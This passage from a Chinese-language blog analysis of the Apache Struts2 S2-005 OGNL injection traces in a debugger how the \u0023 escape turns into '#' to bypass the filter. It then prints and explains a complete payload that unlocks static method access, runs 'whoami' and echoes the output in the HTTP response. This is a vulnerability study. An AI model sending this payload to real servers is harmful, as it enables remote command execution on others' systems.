 &emsp;&emsp;&emsp;&emsp;6.分析\u0023到#的处理,继续执行,跟进setValue方法

![setValue](https://taomujian.github.io/img/S2-005/images/setValue.png)

继续F7进入setValue,跳到下面的重载方法

![setValue_2](https://taomujian.github.io/img/S2-005/images/setValue_2.png)

![setValue_3](https://taomujian.github.io/img/S2-005/images/setValue_3.png)

F7进入OgnlUtil.setValue方法

![setValue_3](https://taomujian.github.io/img/S2-005/images/setValue_3.png)

F7进入complie方法

![compile](https://taomujian.github.io/img/S2-005/images/compile.png)

F7进入parseExpression方法

![parseExpression](https://taomujian.github.io/img/S2-005/images/parseExpression.png)

F7进入topLevel方法,从topLevelExpression就开始了进行语法分析工作.接着进行expression()的解析。

![topLevel](https://taomujian.github.io/img/S2-005/images/topLevel.png)

![expression](https://taomujian.github.io/img/S2-005/images/expression.png)

expression()的解析主要来自于ognl-2.6.11-sources.jar/ognl/JavaCharStream.java readChar函数.在295行打一个断点

![readChar](https://taomujian.github.io/img/S2-005/images/readChar.png)

当\之后为u时,则会进行专门的处理,经过处理后\u0023就会转化为#从而绕过了安全限制

![处理后](https://taomujian.github.io/img/S2-005/images/处理后.png)

&emsp;&emsp;&emsp;&emsp; 7.payload分析

&emsp;&emsp;&emsp;&emsp;前一部分('\u0023context[\'xwork.MethodAccessor.denyMethodExecution\']\u003dfalse')(bla)(bla)是关闭了denyMethodExecution函数
&emsp;&emsp;&emsp;&emsp;('\u0023_memberAccess.allowStaticMethodAccess\u003dtrue')(bla)(bla)是打开了allowStaticMethodAccess函数

&emsp;&emsp;&emsp;&emsp;剩余的就是执行命令并回显出来&('\u0023_memberAccess.excludeProperties\u003d@java.util.Collections@EMPTY_SET')(kxlzx)(kxlzx)&('\u0023mycmd\u003d\'whoami\'')(bla)(bla)&('\u0023myret\u003d@java.lang.Runtime@getRuntime().exec(\u0023mycmd)')(bla)(bla)&(A)(('\u0023mydat\u003dnew\40java.io.DataInputStream(\u0023myret.getInputStream())')(bla))&(B)(('\u0023myres\u003dnew\40byte[51020]')(bla))&(C)(('\u0023mydat.readFully(\u0023myres)')(bla))&(D)(('\u0023mystr\u003dnew\40java.lang.String(\u0023myres)')(bla))&('\u0023myout\u003d@org.apache.struts2.ServletActionContext@getResponse()')(bla)(bla)&(E)(('\u0023myout.getWriter().println(\u0023mystr)')(bla))


## 漏洞修复
